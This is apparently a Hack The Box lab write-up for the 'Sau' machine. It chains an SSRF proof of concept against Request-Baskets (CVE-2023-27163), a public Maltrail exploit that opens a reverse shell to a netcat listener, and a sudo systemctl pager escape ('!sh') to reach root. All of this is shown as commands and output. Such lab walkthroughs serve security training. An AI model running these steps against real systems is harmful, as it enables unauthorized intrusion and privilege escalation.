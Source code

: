 # Sau
Easy machine to Hack the Box is a popular platform for testing and improving your penetration testing skills. One of the easy labs available on the platform is the Sau HTB Lab. The Sau lab focuses on Server-Side Request Forgery (SSRF) and public exploit on Maltrail instance. sudo misconfiguration for doing privilege escalation.

### Reconnaissance
The first step in any penetration testing process is reconnaissance. We can start by running nmap scan on the target machine to identify open ports and services.
```
$ sudo nmap -p- -Pn -sV 10.129.77.100

Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-26 04:05 BST
Stats: 0:01:36 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 93.97% done; ETC: 04:07 (0:00:06 remaining)
Stats: 0:01:58 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 04:08 (0:00:17 remaining)
Stats: 0:02:14 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 04:08 (0:00:33 remaining)
Nmap scan report for 10.129.77.100
Host is up (0.21s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 191.28 seconds
```

Exploring the open port 55555 and searching online about this. We can get the exploit for Server-Side Request Forgery - Exploit POC https://github.com/entr0pie/CVE-2023-27163
```
$ wget https://raw.githubusercontent.com/entr0pie/CVE-2023-27163/main/CVE-2023-27163.sh
```
### Exploit
Updating the code and executing the script to get the access.
```
└──╼ [★]$ bash ./CVE-2023-27163.sh http://10.129.77.100:55555/ http://127.0.0.1:8338/

Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "thznpi" proxy basket...
> Basket created!
> Accessing http://10.129.77.100:55555/thznpi now makes the server request to http://127.0.0.1:8338/.
> Authorization: ecB-ULqgRVwyqJMYjqFo_Rm5yRdjT_9OVgULXrh-8NeW
```
Based on this, we got that the 55555 is powered by Maltrail (v0.53) . Teaching online, we can find working exploit - https://www.exploit-db.com/exploits/51676 which give us shell.
```
└──╼ [★]$ python3 poc.py 10.10.14.128 9001 http://10.129.77.100:55555/thznpi
Running exploit on http://10.129.77.100:55555/thznpi/login

└──╼ [★]$ nc -lvnp 9001
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.129.77.100.
Ncat: Connection from 10.129.77.100:60074.
$ id
id
uid=1001(puma) gid=1001(puma) groups=1001(puma) 
```
Getting the flag:

```
$ cd /home/; ls;
$ cd puma; ls;
$ cat user.txt
~~~~~~~~~~~~FLAG~~~~~~~~~~~~
```

### Privilege Escalation
Getting the basic information the OS.
```
$ uname -r
5.4.0-153-generic
```
Checking the sudo access and configuration:
```
$ sudo -l
User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service

ran the command
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>

sudo /usr/bin/systemctl status trail.service
```
Searching online about systemctl, we can get reference to gtfobins.github.io and reading on that https://gtfobins.github.io/gtfobins/systemctl/ we will see the following approach: 
This invokes the default pager, which is likely to be less, other functions may apply.
```
$sudo systemctl
!sh
```
Using this approach, we can also start the command and gain shell access to read the flag.
```
$ sudo /usr/bin/systemctl status trail.service
!sshh!sh
# id
uid=0(root) gid=0(root) groups=0(root)

# cat /root/root.txt
~~~~~~~~~~~~FLAG~~~~~~~~~~~~
```